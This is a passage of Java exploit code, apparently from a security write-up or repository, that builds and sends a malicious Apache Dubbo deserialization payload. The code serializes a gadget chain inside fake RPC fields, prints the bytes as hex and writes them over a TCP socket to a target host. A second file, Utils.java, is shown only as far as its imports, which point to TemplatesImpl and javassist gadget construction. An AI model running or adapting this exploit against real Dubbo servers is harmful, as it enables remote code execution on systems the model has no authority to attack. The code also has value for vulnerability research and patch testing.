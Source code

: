 ```java
        // Strings need only satisfy "readUTF" calls until "readObject" is reached

        // /*
        objectOutput.writeUTF("2.0.2");
        objectOutput.writeUTF("org.apache.dubbo.demo.DemoService");
        objectOutput.writeUTF("0.0.0");
        objectOutput.writeUTF("sayHello");
        objectOutput.writeUTF("Ljava/lang/String;"); //*/

        objectOutput.writeObject(gadgetChain);
        objectOutput.writeObject(ri.getAttachments());

        objectOutput.flushBuffer();
        byte[] payload = bos.toByteArray();
        int len = payload.length - header.length;
        Bytes.int2bytes(len, payload, 12);

        // Dubbo Message Stream Hex Dump
        for (int i = 0; i < payload.length; i++) {
            System.out.print(String.format("%02X", payload[i]) + " ");
            if ((i + 1) % 8 == 0)
                System.out.print(" ");
            if ((i + 1) % 16 == 0 )
                System.out.println();

        }
        // Payload string
        System.out.println();
        System.out.println(new String(payload));

        Socket pingSocket = null;
        OutputStream out = null;
        // Send request over TCP socket
        try {
            pingSocket = new Socket(DUBBO_HOST_NAME, DUBBO_HOST_PORT);
            out = pingSocket.getOutputStream();
        } catch (IOException e) {
            return;
        }
        out.write(payload);
        out.flush();
        out.close();
        pingSocket.close();
        System.out.println("Sent!");
    }
}
```

Utils.java：

```java
import com.nqzero.permit.Permit;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.target.HotSwappableTargetSource;
```